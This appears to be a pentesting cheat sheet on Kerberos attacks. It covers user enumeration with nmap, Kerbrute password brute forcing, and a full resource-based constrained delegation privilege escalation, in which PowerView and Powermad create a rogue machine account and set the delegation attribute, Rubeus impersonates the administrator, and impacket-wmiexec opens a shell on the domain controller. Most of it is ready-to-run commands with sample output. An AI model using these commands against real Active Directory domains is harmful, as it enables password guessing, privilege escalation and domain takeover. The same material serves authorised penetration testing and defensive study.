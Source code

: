 ```yaml
---
title: Kerberos Pentesting
desc: An authentication protocol that is used to verify the identity of a user or host. Default port is 88. It uses cryptography for authentication and is consisted of the client, the server, and the Key Distribution Center (KDC).
tags: [88, Active, Directory, Kerberos, Kerbrute, Nmap, PrivEsc, Privilege, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

To enumerate automatically, you can use nmap.

```sh
nmap --script krb5-enum-users --script-args krb5-enum-users.realm='example.local'-p 88 <target-ip>
```

- **Brute Force Authentication**

    **[Kerbrute](https://github.com/ropnop/kerbrute){:target="_blank"}{:rel="noopener"}** is a tool to perform Kerberos pre-auth bruteforcing.  
    The wordlist (e.g. combos.txt) specified must be the "username:password" combinations.

    ```sh
    # --dc: domain controller
    # -d: domain
    # combos.txt: the wordlist specified must be combinations with "username:password".
    kerbrute bruteforce --dc 10.0.0.1 -d example.domain combos.txt

    # Users enumeration
    kerbrute userenum --dc 10.0.0.1 -d example.domain usernames.txt

    # Brute force user's password
    kerbture bruteuser --dc 10.0.0.1 -d example.domain passwords.txt username
    ```

<br />

## Privilege Escalation with Kerberos

First off, download two PS scripts in local machine..

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Then upload them to the target machine.

```bash
# Evil-WinRM
upload PowerView.ps1
Import-Module .\PowerView.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```

Check if users are allowed to create a new computer object on the domain.

```bash
Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

# -------------------------
# Result
ms-ds-machineaccountquota: 10
```

And check if the machine is at least Windows Server 2012.

```bash
Get-DomainController

# -------------------------
# Result
OSVersion: Windows Server 2022 Standard
```

And check if the target computer does not have the attributes “msds-allowedtoactionbehalfofotheridentity” set.

```bash
hostname
Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

# ------------------
# Result
name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
<HOSTNAME>   {1, 0, 4, 128...}
```

Now you can create a new computer object.

```bash
New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
Get-DomainComputer test01

# ----------------------
# Result (copy the id)
objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
```

Create a new raw security descriptor

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<objectid-of-a-new-computer>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer <hostname> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

3. **Impersonate to Get a Ticket**

    Download Rubeus.exe in local machine.

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    ```

    Then upload it to the target machine and generate a RC4 hash.

    ```bash
    # Evil-WinRM
    upload Rubeus.exe
    .\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

    # -------------------------
    # Result (copy the rc4 hash)
    rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

    ```

    You can request a Kerberos ticket for a new machine account while impersonating an administrator.

    ```bash
    .\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

    # --------------
    # Result (copy the output long hash at the last)
    ```

    Generate a ticket

    ```bash
    [IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
    download ticket.kirbi
    ```

4. **Make the Ticket Usable and Use It**

    Download “ticket_converter.py”.

    ```bash
    wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
    ```

    Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

    ```bash
    kdestroy
    python3 ticket_converter.py ticket.kirbi ticket.ccache
    export KRB5CCNAME=ticket.ccache
    ```

    We can use the ticket to get a shell.

    ```bash
    impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
    ```

